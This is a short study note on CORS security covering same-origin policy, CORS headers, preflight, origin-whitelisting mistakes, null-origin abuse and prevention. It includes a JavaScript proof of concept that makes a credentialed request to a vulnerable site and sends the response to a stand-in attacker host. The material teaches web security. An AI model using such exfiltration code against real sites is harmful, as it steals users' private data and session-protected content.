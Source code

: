 # CORS

### SOP (same origin policy)

Same Origin:
* Same domain
* Same protocol
* Same port

/!\ subdomains are not the same domain

Cookies are more relaxed, you can access it from a subdomain, even though it is another origin
	
### ACAO
Access-Control-Allow-Origin -> The Browser compares this value

From origin and the repsponse

### Origin
Origin —> added by the browser, set in the first request

### ACAC
Access-Control-Allow-Credentials —> Cookies and Authorization Headers and client side certificates


### Preflight:
	Access-Control-Request-Method: PUT
	Access-Control-Request-Headers: X-Special-Header

### Preflight Response
	Access-Control-Allow-Origin: somesite.com
	Access-Control-Allow-Methods: OPTIONS, POST, PUT
	Access-Control-Allow-Headers: X-Special-header
	Access-Control-Allow-Credentials: true
	Access-Control-Max-Age: 240

	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
	};


## CORS vs CSRF? 
* CORS does not protect against CSRF
* bad configs may increase the impact of the attack
*  there are ways to perform CSRF without CORS (HTML Form), CORS is js
*  Can use CORS to steal the CSRF token

### Errors Whitelisting Origin
Normal-example.com

*  hack-normal-exammple.com
*  normal-example.com-hacked.com

Allowing null Origin
* Use sandboxed iframe

XSS + CORS
* if a vuln website is legitime to make CORS on a dst… an attacker can exploit the XSS on the vuln to access the legitime
Access Resources from Intranet

Attacker Js <— V —> Intra


## HOW TO PREVENT? 
* Configuration problems
*  Control the origin in the ACAO header
*  Avoid nul
*  avoir wildcards
	


